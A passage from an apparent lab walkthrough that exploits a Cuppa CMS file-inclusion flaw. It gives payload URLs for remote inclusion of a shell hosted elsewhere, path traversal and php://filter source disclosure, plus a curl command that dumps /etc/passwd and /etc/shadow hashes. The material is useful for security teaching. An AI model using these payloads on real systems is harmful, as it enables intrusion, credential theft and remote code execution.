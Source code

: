 ```


http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]



#####################################################

EXPLOIT

#####################################################



http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?

http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd



Moreover, We could access Configuration.php source code via PHPStream



For Example:

-----------------------------------------------------------------------------

http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php

-----------------------------------------------------------------------------

```

## Phase 4: LIVE RUN

I tried the LFI, but all I got was a blank page in return. So I attempted this with curl, and got served the *passwd* file:

```
curl http://192.168.145.134/administrator/alerts/alertConfigField.php --data-urlencode urlConfig=../../../../../../../../../etc/passwd
[...]
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
[...]
```

Now we have a valid user on the system and we can read arbitrary files. Because the root user was prepopulated in the installation page, I tried reading the */etc/shadow* file and...succeeded!

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

